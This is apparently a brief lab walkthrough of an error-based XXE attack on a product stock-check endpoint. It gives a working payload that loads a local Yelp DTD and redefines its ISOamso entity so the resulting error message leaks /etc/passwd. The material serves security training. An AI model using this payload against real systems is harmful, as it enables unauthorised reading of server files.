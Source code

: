 
1. Check the stock of a product and submit the following request

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> %local_dtd; ]>
<stockCheck><productId>4</productId><storeId>1</storeId></stockCheck>

```

2. Verify that, if you send the request with that file path the application not  "crash"
3. Now change the body of the request to the following payload

```
<!DOCTYPE message [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> <!ENTITY % ISOamso ' <!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> &#x25;eval; &#x25;error; '> %local_dtd; ]>
```

This will import the Yelp DTD, then redefine the `ISOamso` entity, triggering an error message containing the contents of the `/etc/passwd` file.

![](/static/img/Pasted_image_20231114192112.png)


![](/static/img/Pasted_image_20231114192051.png)

